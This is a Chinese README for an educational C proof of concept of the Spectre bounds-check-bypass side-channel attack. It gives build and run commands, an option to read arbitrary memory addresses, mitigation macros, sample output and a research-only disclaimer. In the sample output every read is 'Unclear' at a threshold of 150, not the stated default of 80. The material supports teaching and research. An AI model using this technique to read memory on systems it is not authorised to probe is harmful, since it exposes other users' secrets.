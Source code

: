 # Bounds Check Bypass PoC
本项目通过 C 代码演示了经典的“边界检查绕过”（Bounds Check Bypass）侧信道攻击原理，即 Spectre 漏洞。攻击者可利用 CPU 的分支预测和缓存时序侧信道，越界读取受害者内存中的敏感数据。

## 说明
- 原项目地址--> [SpectrePoc](https://github.com/crozone/SpectrePoC)
- 演示如何通过分支预测误导 CPU，利用缓存命中时间推测 secret 字符串内容。
- 支持多种缓解措施（如 Intel LFENCE、Linux nospec 掩码），可通过编译宏启用。
- 可在 Windows（MSVC）和 Linux（gcc/clang）平台编译运行。

## 编译
项目只有一个源文件 `main.c`，使用附带的 Makefile 即可一键编译
```bash
make          # 生成可执行文件 poc
make clean    # 清理生成的文件
```
Makefile 默认使用 gcc，编译选项为 -std=c99 -O0（无优化，方便调试）。

## 运行
### 基本用法
直接执行即可,程序会读取固定在 secret 中的字符串 `The Magic Words are Squeamish Ossifrage.`，并逐字节打印推测结果。
```bash
make run
```
### 自定义缓存命中阈值
通过第一个命令行参数调整“缓存命中阈值”（默认 80,测量的访存时钟周期数）
```bash
./poc 100
```
阈值越大，越难判定为命中；阈值越小，越容易产生误判。

### 读取任意地址与长度
通过第二、三个参数可任意指定要读取的地址和长度（仅用于研究，切勿在生产环境使用！）：
```bash
./poc 80 0x7ffeefbff9c0 16
```
- 参数 2：要读取的绝对虚拟地址（以 0x 开头的十六进制字符串）。
- 参数 3：希望读取的字节数。

> 注意：地址需要落在当前进程可访问的范围内，否则会触发段错误。

## 输出示例
```TEXT
Using a cache hit threshold of 150.
Build:
RDTSCP  Yes
MFENCE  Yes
CLFLUSH Yes
INTEL_MITIGATION        No
LINUX_KERNEL_MITIGATION No
Reading 40 bytes:
Reading at malicious_x = 0xffffffffffffdfe8... Unclear: 0x4D='M' count=305      (second best: 0xE5='?' count=304)
Reading at malicious_x = 0xffffffffffffdfe9... Unclear: 0x84='?' count=875      (second best: 0xDA='?' count=872)
Reading at malicious_x = 0xffffffffffffdfea... Unclear: 0x16='?' count=883      (second best: 0x28='(' count=882)
Reading at malicious_x = 0xffffffffffffdfeb... Unclear: 0x9B='?' count=864      (second best: 0xE0='?' count=858)
Reading at malicious_x = 0xffffffffffffdfec... Unclear: 0xF6='?' count=870      (second best: 0xC0='?' count=865)
Reading at malicious_x = 0xffffffffffffdfed... Unclear: 0x3A=':' count=861      (second best: 0xE1='?' count=860)
Reading at malicious_x = 0xffffffffffffdfee... Unclear: 0x17='?' count=864      (second best: 0x45='E' count=858)
Reading at malicious_x = 0xffffffffffffdfef... Unclear: 0x31='1' count=856      (second best: 0x35='5' count=855)
Reading at malicious_x = 0xffffffffffffdff0... Unclear: 0x38='8' count=862      (second best: 0x28='(' count=858)
Reading at malicious_x = 0xffffffffffffdff1... Unclear: 0xEC='?' count=862      (second best: 0x34='4' count=862)
Reading at malicious_x = 0xffffffffffffdff2... Unclear: 0xD5='?' count=884      (second best: 0xE5='?' count=881)
Reading at malicious_x = 0xffffffffffffdff3... Unclear: 0xFF='?' count=933      (second best: 0x1C='?' count=932)
Reading at malicious_x = 0xffffffffffffdff4... Unclear: 0x7F='?' count=962      (second best: 0xDD='?' count=960)
Reading at malicious_x = 0xffffffffffffdff5... Unclear: 0xEE='?' count=960      (second best: 0xBB='?' count=957)
Reading at malicious_x = 0xffffffffffffdff6... Unclear: 0xA6='?' count=944      (second best: 0x62='b' count=944)
Reading at malicious_x = 0xffffffffffffdff7... Unclear: 0xE2='?' count=966      (second best: 0xDE='?' count=963)
Reading at malicious_x = 0xffffffffffffdff8... Unclear: 0xEF='?' count=967      (second best: 0x27=''' count=966)
Reading at malicious_x = 0xffffffffffffdff9... Unclear: 0xC7='?' count=938      (second best: 0xE9='?' count=936)
Reading at malicious_x = 0xffffffffffffdffa... Unclear: 0x96='?' count=928      (second best: 0x44='D' count=924)
Reading at malicious_x = 0xffffffffffffdffb... Unclear: 0xDD='?' count=952      (second best: 0x87='?' count=951)
Reading at malicious_x = 0xffffffffffffdffc... Unclear: 0x61='a' count=894      (second best: 0xFC='?' count=893)
Reading at malicious_x = 0xffffffffffffdffd... Unclear: 0xE6='?' count=885      (second best: 0xF7='?' count=882)
Reading at malicious_x = 0xffffffffffffdffe... Unclear: 0x61='a' count=911      (second best: 0xB6='?' count=910)
Reading at malicious_x = 0xffffffffffffdfff... Unclear: 0xC8='?' count=872      (second best: 0x35='5' count=871)
Reading at malicious_x = 0xffffffffffffe000... Unclear: 0x48='H' count=876      (second best: 0xC8='?' count=875)
Reading at malicious_x = 0xffffffffffffe001... Unclear: 0xE6='?' count=890      (second best: 0x1C='?' count=887)
Reading at malicious_x = 0xffffffffffffe002... Unclear: 0xA8='?' count=892      (second best: 0x61='a' count=882)
Reading at malicious_x = 0xffffffffffffe003... Unclear: 0x4D='M' count=879      (second best: 0x28='(' count=876)
Reading at malicious_x = 0xffffffffffffe004... Unclear: 0x21='!' count=860      (second best: 0xB0='?' count=856)
Reading at malicious_x = 0xffffffffffffe005... Unclear: 0xF7='?' count=876      (second best: 0x67='g' count=863)
Reading at malicious_x = 0xffffffffffffe006... Unclear: 0xE0='?' count=868      (second best: 0x30='0' count=867)
Reading at malicious_x = 0xffffffffffffe007... Unclear: 0x9C='?' count=870      (second best: 0x9D='?' count=862)
Reading at malicious_x = 0xffffffffffffe008... Unclear: 0x5C='\' count=864      (second best: 0x67='g' count=858)
Reading at malicious_x = 0xffffffffffffe009... Unclear: 0xB4='?' count=861      (second best: 0x9E='?' count=861)
Reading at malicious_x = 0xffffffffffffe00a... Unclear: 0xEC='?' count=863      (second best: 0x16='?' count=858)
Reading at malicious_x = 0xffffffffffffe00b... Unclear: 0xAC='?' count=880      (second best: 0x96='?' count=876)
Reading at malicious_x = 0xffffffffffffe00c... Unclear: 0xE5='?' count=969      (second best: 0x86='?' count=968)
Reading at malicious_x = 0xffffffffffffe00d... Unclear: 0x42='B' count=976      (second best: 0x26='&' count=968)
Reading at malicious_x = 0xffffffffffffe00e... Unclear: 0xEF='?' count=962      (second best: 0x27=''' count=959)
Reading at malicious_x = 0xffffffffffffe00f... Unclear: 0xE8='?' count=926      (second best: 0xBE='?' count=926)
```

每行依次给出：
- 推测是否成功（Success / Unclear）
- 十六进制值与对应 ASCII 字符
- 命中次数（最好和次好）

## 安全声明
本程序仅用于教学与研究目的，帮助理解现代 CPU 的微架构侧信道风险。请确保：
在受控、隔离的实验环境中运行；
不用于任何未经授权的渗透测试或攻击行为；
阅读并遵守当地法律法规。
作者不对任何滥用此代码造成的后果负责。